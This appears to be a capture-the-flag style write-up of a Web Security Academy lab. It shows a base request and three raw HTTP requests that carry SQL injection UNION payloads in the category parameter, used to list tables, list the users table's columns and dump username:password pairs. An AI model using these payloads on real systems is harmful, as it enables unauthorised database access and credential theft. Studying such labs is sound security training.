 postgresSQL

##### Base request
GET /filter?category=Pets HTTP/2
Host: 0ac4008c032b31d882d8a39c008c00b9.web-security-academy.net
Cookie: session=KZLJ6mPLrheW0MQJdkhRcDiOANU5zsGE
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ac4008c032b31d882d8a39c008c00b9.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i



##### Step1: Identify DB used and look up all the tables
GET /filter?category=Pets _' UNION SELECT 2,table_name FROM information_schema.tables--_ HTTP/2
Host: 0ac4008c032b31d882d8a39c008c00b9.web-security-academy.net
Cookie: session=KZLJ6mPLrheW0MQJdkhRcDiOANU5zsGE
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ac4008c032b31d882d8a39c008c00b9.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

##### Step2: Identify relevant table with username and password, then look up the columns
GET /filter?category=Pets _' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name='users'--_ HTTP/2
Host: 0ac4008c032b31d882d8a39c008c00b9.web-security-academy.net
Cookie: session=KZLJ6mPLrheW0MQJdkhRcDiOANU5zsGE
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ac4008c032b31d882d8a39c008c00b9.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
##### Step3: identify target user and print out password
GET /filter?category=Pets _' UNION SELECT NULL,username||':'||password FROM users--_ HTTP/2
Host: 0ac4008c032b31d882d8a39c008c00b9.web-security-academy.net
Cookie: session=KZLJ6mPLrheW0MQJdkhRcDiOANU5zsGE
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ac4008c032b31d882d8a39c008c00b9.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

